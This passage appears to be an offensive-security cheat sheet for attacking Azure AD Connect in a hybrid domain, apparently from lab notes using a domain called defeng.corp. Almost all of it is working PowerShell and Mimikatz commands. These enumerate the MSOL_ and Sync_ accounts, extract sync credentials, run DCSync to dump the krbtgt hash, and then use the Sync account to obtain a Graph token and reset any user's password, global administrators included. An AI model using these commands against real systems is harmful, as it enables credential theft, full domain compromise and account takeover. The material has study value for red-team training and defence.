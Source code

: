 #### Enumerate server where Azure AD is installed (on prem command)
```
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Properties * | select SamAccountName,Description | fl
```

#### Enumerate server where Azure AD is installed (Azure command)
```
Import-Module .\AzureAD.psd1
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```

#### Extract credentials from the server
```
Get-AADIntSyncCredentials
```

#### Run DCSync with creds of MSOL_* account
```
runas /netonly /user:defeng.corp\MSOL_782bef6aa0a9 cmd 
Invoke-Mimikatz -Command '"lsadump::dcsync/user:defeng\krbtgt /domain:defeng.corp /dc:defeng-dc.defeng.corp"'
```

### Reset password of any user
- Using the Sync_* account we can reset password for any user. (Including Global Administrator and the user who created the tenant)

#### Using the creds, request an access token for AADGraph and save it to cache
```
$passwd = ConvertTo-SecureString '<password>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_DEFENG-ADCNCT_782bef6aa0a9@defcorpsecure.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds -SaveToCache
```

#### Enumerate global admin
```
Get-AADIntGlobalAdmins
```

#### Get the ImmutableID
```
Get-AADIntUser -UserPrincipalName onpremadmin@defcorpsecure.onmicrosoft.com | select ImmutableId
```

#### Reset the Azure password
```
Set-AADIntUserPassword -SourceAnchor "E2gG19HA4EaDe0+3LkcS5g==" -Password "SuperSecretpass#12321" -Verbose
```
